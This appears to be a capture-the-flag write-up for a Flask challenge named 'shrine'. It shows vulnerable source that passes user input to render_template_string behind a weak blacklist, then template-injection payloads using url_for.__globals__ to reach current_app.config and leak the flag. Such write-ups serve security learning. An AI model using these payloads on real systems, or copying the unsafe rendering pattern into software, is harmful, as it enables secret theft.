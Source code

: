 # shrine

![Screenshot from 2021-07-26 17-55-40](https://user-images.githubusercontent.com/87865134/126978185-a7784b59-3697-4004-9220-792073ed9cae.png)

### - Source Code Disclosure
```python
import flask import os 
app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/') 
def index(): 
    return open(__file__).read() 
    
@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self'] 
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
    return flask.render_template_string(safe_jinja(shrine)) 


if __name__ == '__main__': app.run(debug=True) 
```
### - Hint:
  - Flag in app.config

### - Source code review:
  - has route ***/shrine/*** use `render_template` to render data  

![Screenshot from 2021-07-26 18-03-28](https://user-images.githubusercontent.com/87865134/126978929-e07e7024-1da7-4ed8-85d5-23dbcca1d6b0.png)
  
  - can't use function in route ***/shrine/*** because `s = s.replace('(', '').replace(')', '')`
  - can't use built-in object `config`, `self` because it is in the `blacklist = ['config', 'self'] `
  - can use built-in function  `url_for()` and `get_flashed_messages()`
  
### - Exploit:
  - use `url_for.__globals__` to get the dictionary that holds the function’s global variables
  ```python
  http://111.200.241.244:62937/shrine/{{url_for.__globals__}}
  ```
 
 ![Screenshot from 2021-07-26 18-13-27](https://user-images.githubusercontent.com/87865134/126980102-12da23dc-724b-41ef-8212-dc8fc2391c5e.png)

  - `'current_app': <Flask 'app'>` is the current Flask to be used
  - Flag is in app.config -> retrieve `current_app.config` to get flag
  ```python
  http://111.200.241.244:62937/shrine/{{url_for.__globals__['current_app'].config}}
  ```
 
 ![Screenshot from 2021-07-26 18-17-24](https://user-images.githubusercontent.com/87865134/126980594-7924c08b-6c3a-4ddc-8097-d0aefc32b7f4.png)

### - Description
> **category**: Server-side Template Injection
 
